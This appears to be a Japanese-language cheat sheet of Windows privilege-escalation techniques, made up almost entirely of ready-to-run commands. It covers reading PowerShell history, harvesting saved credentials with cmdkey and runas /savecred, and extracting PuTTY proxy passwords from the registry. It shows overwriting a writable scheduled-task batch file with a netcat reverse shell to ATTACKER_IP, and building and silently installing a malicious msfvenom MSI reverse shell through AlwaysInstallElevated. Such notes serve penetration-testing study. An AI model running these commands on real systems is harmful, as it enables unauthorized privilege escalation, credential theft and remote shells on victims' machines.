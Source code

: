 # Windows権限昇格手法  


### PowerShellのログを確認する  

``` type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt ```  
<br>※また、PowerShellで実行する場合には%userprofile%を$Env:userprofileに変更する必要がある  



  ### Windows内に保存されているクレデンシャル情報を確認する  
  ```cmdkey /list```
実際のパスワードを見ることはできませんが、試す価値のある認証情報があれば、以下のようにrunasコマンドと/savecredオプションで使用することが可能
```runas /savecred /user:admin cmd.exe```


### Puttyに保存されている平文の認証情報を含むプロキシパスワードを確認する
```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```


### スケジュールタスクを調べて書き換え可能なバイナリがないかを調べる
``` schtasks /query /tn vulntask /fo list /v```
##### また、出力結果内で重要となってくるのが"Task to Run"と"Run As User"という項目で<br>もし、現在のユーザーが "Task to Run "実行ファイルを変更または上書きすることができれば<br>taskusr1ユーザーによって実行されるものを制御することができ、結果として単純な特権の昇格を実現することができる。
``` 
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

##### (I)と(F)は権限のことで、(F)はフルアクセスを指している。
つまり今回の例だとこのバッチファイルをリバールシェルに書き換えればrootになれる  
以下はバッチをリバースシェルに書き換える例  
``` C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat ```



### msiファイルを利用して権限昇格する
msiでは任意のユーザーアカウント（非特権ユーザーも含む）から、より高い特権で実行されるように設定することができる。  
これにより、管理者権限で実行される悪意のあるMSIファイルを生成することができるが、それには以下の2うのレジストリ値を設定する必要がある。
```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
以下はmsfvenomでmsi形式のリバースシェルを生成する例
```msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi```
<br>生成したファイルをターゲットPCに送り込んで実行する例
```C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi```
